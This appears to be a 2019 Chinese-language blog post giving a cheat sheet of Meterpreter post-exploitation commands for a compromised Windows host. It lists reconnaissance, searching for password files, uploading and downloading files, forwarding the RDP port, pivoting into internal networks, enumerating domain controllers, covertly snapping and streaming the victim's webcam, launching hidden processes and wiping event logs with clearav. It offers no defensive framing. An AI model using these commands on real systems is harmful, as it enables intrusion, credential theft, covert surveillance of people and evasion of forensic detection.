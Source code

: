 ﻿---
layout: post
title: meterpreter操作命令大全
date: 2019-09-19
categories: blog
tags: [meterpreter]
description: meterpreter操作命令大全
---

###### 基本命令
```
`getuid`查看权限
`sysinfo`查看系统信息
`ipconfig`
`netstat -ano`
`arp`
`route`
`getproxy`
`ps`
`idletime`查看主机闲置时间
`shell`进入cmd
`pwd`
`ls`
`cd`
`search -f *pass*`查找文件
`cat`
`upload /tmp/hack.txt C:\\lltest`上传
`download c:\\lltest\\lltestpasswd.txt /tmp/`下载
`edit`
`mkdir`
`rm`
`lpwd`查看本地目录
`lls`
`lcd`
```
###### 端口转发
```
`portfwd add -l 6666 -p 3389 -r 127.0.0.1 #将目标机的3389端口转发到本地6666端口`
```
###### 内网扫描
```
>autoroute添加路由
>`run autoroute -s 192.168.17.0/24`添加到目标环境网络
>`run autoroute –p`查看添加的路由
>
>`run post/windows/gather/arp_scanner RHOSTS=192.168.159.0/24`
>`run auxiliary/scanner/portscan/tcp RHOSTS=192.168.159.144 PORTS=3389`
>
>`run post/windows/gather/checkvm`查看被控机器是否虚拟机
>`run post/linux/gather/checkvm`是否虚拟机
>`run post/windows/gather/enum_applications`查看安装软件信息
>`run post/windows/gather/enum_patches`查看补丁
>`run post/windows/gather/enum_domain`查找域控
```
###### webcam
```
>`webcam_list`查看摄像头
`webcam_snap`拍照
`webcam_stream`摄像头直播
```
###### 执行文件
```
>`execute -H -i -f cmd.exe ` 创建新进程cmd.exe，-H不可见，-i交互
`execute -f notepad.exe`
```
#### 清除日志
```
>`clearav `清除windows中的应用程序日志、系统日志、安全日志
```













